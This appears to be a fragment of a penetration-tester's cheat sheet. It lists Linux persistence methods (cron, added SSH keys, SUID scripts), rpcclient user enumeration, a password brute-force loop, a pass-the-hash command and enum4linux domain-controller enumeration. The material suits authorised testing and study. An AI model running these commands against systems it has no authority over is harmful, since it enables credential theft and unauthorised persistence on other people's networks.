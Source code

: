 ```
```

Create NTLM Hash from Mac CLI

```
    echo -n password | iconv -t UTF-16LE | openssl md4
```

### Linux Persistence Ideas

```
    Cron
    Add SSH keys
    Add SUID to world-writeable script (chmod u+s <file>)
    Add init script (reboot persistence)
```

### rpcclient

http://pen-testing.sans.org/blog/2013/07/24/plundering-windows-account-info-via-authenticated-smb-sessions

```
    rpcclient -U "" -N <WinIPaddr>
    rpcclient -U <username> <WinIPaddr>
    rpcclient $> srvinfo
    rpcclient $> enum
    rpcclient $> enumdomusers
    rpcclient $> queryuser 500
```

Password bruteforce via rpcclient

```
    for u in `cat users_sorted.txt`; do
        echo -n "[*] user: $u" && \
        proxychains rpcclient -U "domain\$u%$u" -c "getusername;quit" 10.9.8.40
    done
```

Pass the Hash Variant

```
    pth-rpcclient -U "domain\name%hash" --pw-nt-hash 10.4.128.41
```

### enum4linux

Domain Controller Anonymous Enumeration

```
    enum4linux -A <ip> | tee <ip>-anon-enum.txt
```

### iptables

_Append rules to top of the Input filter and make persistent_
